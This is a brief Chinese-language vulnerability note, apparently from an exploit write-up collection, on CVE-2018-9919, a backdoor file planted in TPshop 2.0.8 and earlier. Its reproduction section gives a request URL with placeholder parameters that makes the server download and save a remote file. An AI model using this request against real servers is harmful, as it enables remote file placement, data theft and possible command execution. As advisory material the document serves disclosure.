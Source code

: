 # CVE-2018-9919 Thinkphp Shop后门

### 一、漏洞简介

该漏洞源于/vendor/phpdocumentor/reflection-docblock/tests/phpDocumentor/Reflection/DocBlock/Tag/LinkTagTeet.php可以将文件下载到其他服务器上。远程攻击者可利用该漏洞获取敏感信息，并可能执行命令。

### 二、漏洞影响

Backdoor in Tpshop <= 2.0.8

### 三、复现过程

攻击者可以利用此漏洞来攻击服务器并增加其特权，例如：下载任意文件PS！扫描网络端口PS！信息检测，攻击内部网络易受攻击的服务器。


```
http://url/vendor/phpdocumentor/reflection-docblock/tests/phpDocumentor/Reflection/DocBlock/Tag/LinkTagTeet.php?bddlj=save_filename&down_url=download_url&jmmy=decryptpass
```